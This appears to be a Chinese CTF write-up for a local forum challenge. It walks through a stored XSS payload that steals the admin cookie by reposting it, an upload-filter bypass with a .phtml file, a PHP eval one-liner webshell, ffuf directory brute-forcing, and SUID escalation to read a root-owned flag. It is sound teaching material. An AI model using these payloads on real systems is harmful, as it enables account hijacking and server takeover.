





# moe论坛 - WriteUp

> 本题知识点：  
> :star: 基本的存储型XSS  
> :star::star: 文件上传后缀名绕过  
> :star::star::star: 复杂路径爆破  
> :star::star::star::star: PHP一句话木马及 webshell  
> :star::star::star::star::star: suid提权
>
> 综合难度： :star::star::star::star::star::star::star:

## 第一关：存储型 XSS

### 探索

打开环境，一个登录页显示在眼前。想要进入，必须要有账号，于是随便注册一个。

  
~~！？⑨⑨？！~~ ~~越共探头~~

注册后，检查 cookie，发现使用 `PHPSESSID` 来保存会话。

尝试发帖，很顺利地发送了。


同时注意到一个很关键的点：**admin账户会经常访问主页！**  
那么，admin在访问主页时**很有可能会执行页面上的\<script>标签中的代码！**

于是想到使用 XSS 攻击。

### XSS

跨站脚本攻击，Cross-Site Scripting (XSS，为了防止和层叠样式表 **C**ascading **S**tyle **S**heet 混淆)，是一种常见的 Web 攻击手段。  
通过向页面代码中插入 `<script>` `` `<iframe>` 等标签来实现在其他用户的页面中执行恶意代码。

简单测试了一下， `<script>` 标签可以直接执行，于是编写获取 cookie 的 payload。

```html
<script>
// 提交的请求格式是经典的 urlencode 格式（如下）
// title=xxx&content=xxx
// 所以可以直接创建一个 form 节点来将获取的 cookie 通过发帖展示出来
form = document.createElement('form');
title = document.createElement('input');
content = document.createElement('input');
title.name = 'title';
content.name = 'content';
title.value = 'session';
content.value = document.cookie;
form.action = 'http://' + window.location.host + '/new_post.php';
form.method = 'POST';
form.appendChild(title);
form.appendChild(content);
document.body.appendChild(form);
form.submit();
</script>
```

这里我们通过 `document.cookie` 尝试获取 admin 的 cookie ，并发送一个假的发帖请求，将cookie的内容发出来。

提交后，我们瞬间从这个帖子跳转到了“我们”发的包含自己 cookie 的帖子，说明 XSS 注入成功了。



请注意你的浏览器地址栏，这里用了 `id` 参数来表示你的帖子的编号。例如下面这个 url

```
http://127.0.0.1:60804/view.php?id=4
```

接下来你要做的不是去主页，而是拿起你的水杯去泡杯茶，或者[打开B站看看有意思的内容](https://bilibili.com/video/BV1GJ411x7h7 "吃一堑吃一堑吃一堑")。

等上几分钟后，再返回主页，你会发现你的新帖的 id 不是你的上一个帖子的 id + 1，而是跳过了几个数，例如：

```
http://127.0.0.1:60804/view.php?id=11
```

不难想到，中间的帖子是 admin 发送的，这说明我们的攻击已经拿到了 admin 的 cookie！

接下来，我们只需要多次访问主页，通过不断发帖把包含XSS攻击的帖子**挤到下一页去**，这样就可以正常访问到主页并查看admin发出的cookie。

将最新的 `PHPSESSID` 和 `role` 拿来替换掉我们自己的，再次刷新，便成功登上了 admin 账户！



至此，第一关通过！

## 第二关：文件上传后缀绕过

### 后台

拿到 admin 之后，页面上多出了一个 `管理后台` 按钮，有上传文件到公告栏的功能。

看一下前端代码，发现前后端都基于文件后缀名做了检测，  
相关代码如下：

```javascript
(function () {
    var blacklist = ['php', 'php3', 'php4', 'php5', 'php7', 'phps','.htaccess'];// Same as backend
    var form = document.getElementById('uploadForm');
    var fileInput = document.getElementById('fileInput');
    var errorBox = document.getElementById('fileError');

    form.addEventListener('submit', function (e) {
        var filename = fileInput.value;
        if (!filename) return;
        var ext = filename.split('.').pop().toLowerCase();
        if (blacklist.indexOf(ext) !== -1) {
            e.preventDefault();
            errorBox.textContent = '非法文件类型！PHP文件不允许上传。';
            errorBox.style.display = 'block';
            fileInput.value = '';
        } else {
            errorBox.style.display = 'none';
        }
    });

    fileInput.addEventListener('change', function () {
        errorBox.style.display = 'none';
    });
})();
```

可以看到，禁止了一堆 php 后缀名和 htaccess。

然而，我们注意到**没有禁止** `.phtml` 后缀，这也是合法的 php 文件后缀。

### 构造一句话木马

一句话木马，当然就是一句话的事情，随手写一个：

```php
<?php eval($_REQUEST['cmd']); ?>
```

然后上传：



接下来的目标就是，访问到我们的 `.phtml` 文件。

## 第三关：路径爆破

路径爆破本身没什么好说的，但是本题需要**递归**爆破，导致我用 dirsearch 卡了两天没爆出来。

这里用 ffuf 使用 fuzzDicts 来爆破。

```bash
ffuf -u http://127.0.0.1:63128/FUZZ/20261016_052504_a12ba364.phtml -w ../wordlists/fuzzDicts/directoryDicts/dicc.txt -mc all -fc 404,403
```

得到关键路径 `fileadmin/user_upload/`。

## 第四关：WebShell

测试一下：
    
    fileadmin/user_upload/20261016_052504_a12ba364.phtml?cmd=echo%20"webshell%20ready";

路径可以访问并且成功输出了 `webshell ready`。

接下来，打开 webshell 工具，这里我使用了 *中国蚁剑 AntSword*。



打开虚拟终端，检测一下环境。



可以看到，根目录下的 `f139` 就是我们需要的 flag！  
尝试读取...... 失败了，权限不足！

```bash
$ cat /f139
cat: /f139: Permission denied
```

## 第五关：SUID 提权

> [!TIP]
> SUID 提权的本质是：当某个可执行文件被设置了 SUID 位（权限 4000），普通用户执行它时会以文件属主（通常是 root）的权限运行，从而可能导致权限提升风险。

因此，我们可以寻找一下有没有合适的**有 SUID 位**的可执行文件。

```bash
$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/mount
/usr/bin/passwd
/usr/bin/hostname
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

大部分的文件都是我们熟悉的，只有2个没见过的：`hostname` 和 `dbus-daemon-launch-helper`。

```bash
$ hostname --help
Usage:
 rev [options] [<file> ...]
Reverse lines characterwise.
Options:
 -h, --help     display this help
 -V, --version  display version
For more details see rev(1).
```

这个命令会把给的文件中每一行反着输出出来，但是**拥有 root 权限**！

看来这正是我们需要的！  
接下来只要使用 2 次 `hostname` 就可以拿到 flag 了！

```bash
$ hostname /f139 >./reversed_flag
$ hostname ./reversed_flag
moectf{2f2a40f2-1210-c66f-aa7b-679d1ca0536a}
```

500pts 到手！